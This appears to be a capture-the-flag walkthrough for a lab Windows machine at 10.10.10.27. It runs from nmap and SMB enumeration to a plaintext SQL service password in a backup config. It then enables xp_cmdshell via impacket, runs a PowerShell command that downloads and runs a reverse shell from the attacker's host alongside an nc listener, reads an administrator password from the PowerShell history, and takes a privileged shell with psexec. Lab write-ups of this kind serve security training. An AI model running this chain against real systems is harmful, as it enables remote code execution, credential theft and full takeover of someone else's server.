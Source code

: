 # 10.10.10.27

---

## nmap -sS -sC -sV 10.10.10.27

PORT     STATE SERVICE    VERSION
135/tcp  open  tcpwrapped
139/tcp  open  tcpwrapped
445/tcp  open  tcpwrapped Windows Server 2019 Standard 17763 tcpwrapped
1433/tcp open  ms-sql-s   Microsoft SQL Server 2017 14.00.1000.00; RTM

---

## smbclient -N -L 10.10.10.27

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC

---

## smbclient -N \\\\10.10.10.27\\backups

```
  .                                   D        0  Mon Jan 20 15:20:57 2020
  ..                                  D        0  Mon Jan 20 15:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 15:23:02 2020

```

## In config:

```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Username: ARCHETYPE
Pass: M3g4c0rp123

---

## python3 impacket/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

++ [Code Fix of tds.py](https://github.com/SecureAuthCorp/impacket/issues/856)

```
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> exec sp_configure 'Show Advanced Options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> exec sp_configure 'xp_cmdshell', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL  
```

No admin privileges.

Next is reverse shell.

---

## xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.16.65/shell.ps1\");""

Script saved in ```shell.ps1```, had to do some clean up and fix the IP adress.

```
    sudo python3 -m http.server 80  //  shell.ps1 taken from here.
    sudo nc -lvnp 443   //  Reverse shell is sent to here.
```
Reverse shell is now ready.

---

## type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

```
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Username: administrator
Pass: MEGACORP_4dm1n!!

---

## python3 impacket/psexec.py administrator@10.10.10.27

And we have a privileged remote shell.

---

## Inside users

```
user.txt:
    3e7b102e78218e935bf3f4951fec21a3
```
```
root.txt:
    b91ccec3305e98240082d4474b848528
```